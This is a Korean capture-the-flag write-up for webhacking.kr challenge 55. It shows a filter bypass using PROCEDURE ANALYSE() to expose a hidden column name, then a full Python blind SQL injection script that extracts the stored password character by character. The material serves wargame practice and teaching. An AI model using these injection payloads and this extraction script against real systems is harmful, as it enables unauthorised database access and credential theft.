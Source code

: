 # 55

## 문제

또 다시 Chrome 브라우저에서 작동하지 않는 코드가 등장했다. 자바스크립트 엔진이 달라서 그렇다나 뭐다나 문제를 보고싶으면 IE나 다른 브라우저로 들어가자.

스코어보드에 보면 점수로 점수를 획득한 사람을 검색할 수 있다.

## 풀이

스코어보드 검색 기능에서 SQL 인젝션이 발생한다. 여기서 `localhost` 계정의 비밀번호를 어떻게든 추출하면 될것 같다/.

먼저 테이블의 Column 이름을 알아내자.

`score` 파라미터에서 `SELECT`와 `UNION`이 필터링하기 때문에 `information_schema`에는 못 들어갈 것 같다. 어떻게 Column 이름을 찾지 하다가 `PROCEDURE ANALYSE()`란 함수 명렁어를 찾았다. 레퍼런스를 보면 `ANALYSE()`를 통해 쿼리 결과 값을 통해 테이블 크기를 줄일 수 있는 최적의 데이터 타입을 분석해서 리턴한다고 하는데, 이때 테이블 명과 필드 이름을 알 수 있다.

```html
http://webhacking.kr/challenge/web/web-31/rank.php?score=0 limit 2,1 procedure analyse()

id : webhacking.challenge55_game.pAsSw0RdzzzZ //
```

아마도 비밀번호 필드 이름으로 추정되는 것이 나왔다. `pAsSw0RdzzzZ` 이걸 가지고 Blind SQL 인젝션을 진행해보자.

```python
import urllib.request
import string

url = "http://webhacking.kr/challenge/web/web-31/rank.php?score="
cookie = "PHPSESSID=~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
password = ""
length = 0

# pAsSw0RdzzzZ Length 알아내기
for i in range(1,100):
    url_param = "0 and 1=1 and length(pAsSw0RdzzzZ)=" + str(i)
    url_param = url_param.replace(' ', '%20')
    req = urllib.request.Request(url + url_param)
    req.add_header("Cookie", cookie)
    res = str(urllib.request.urlopen(req).read())
    if res.find("id : localhost // 0") != -1:
        print("pAsSw0RdzzzZ LENGTH :", i)
        length = i
        break

# pAsSw0RdzzzZ Blind SQL
for i in range(1, length+1):
    for c in range(32,127):
        url_param = "0 and 1=1 and RIGHT(LEFT(pAsSw0RdzzzZ," + str(i) + "),1)=" + str(hex(c))
        url_param = url_param.replace(' ', '%20')
        req = urllib.request.Request(url + url_param)
        req.add_header("Cookie", cookie)
        res = str(urllib.request.urlopen(req).read())
        if res.find("id : localhost // 0") != -1:
            password += chr(c)
            print(password)
            break
```

꽤 오래 걸리긴 하는데 패스워드를 추출할 수 있었다.